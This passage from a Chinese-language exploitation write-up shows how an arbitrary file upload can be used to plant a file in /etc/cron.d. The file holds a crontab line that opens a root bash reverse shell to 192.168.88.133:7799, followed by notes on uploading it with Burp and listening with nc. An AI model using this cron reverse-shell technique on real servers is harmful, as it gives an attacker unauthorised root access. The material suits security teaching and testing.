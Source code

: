   

### 利用路径二

条件

-   目标服务器的 crond 正常运行
    
-   上传路径可以控制
    
-   对/etc/cron.d 目录有写入权限即可，后缀名不限
    

因为在/etc/cron.d 这个目录下，任意后缀的文件都可以执行，我们创建一个每分钟执行一次的定时任务；并且把结果输出到/tmp 下的 haha 文件中（注意这里要添加一个用户名）

```plain
*/1  *  *  *  *   root /bin/bash -i>&/dev/tcp/192.168.88.133/7799 0>&1
```

首先我们确认/var/spool/cron 下是没有任何文件的

![图片](assets/1711884896-fb77f45dfcca23d21f33fff02f8ef789.webp)

  

burp 上传

![图片](assets/1711884896-c0964ea4e8500cdfc7e63098fec0f226.webp)

  

nc 进行监听
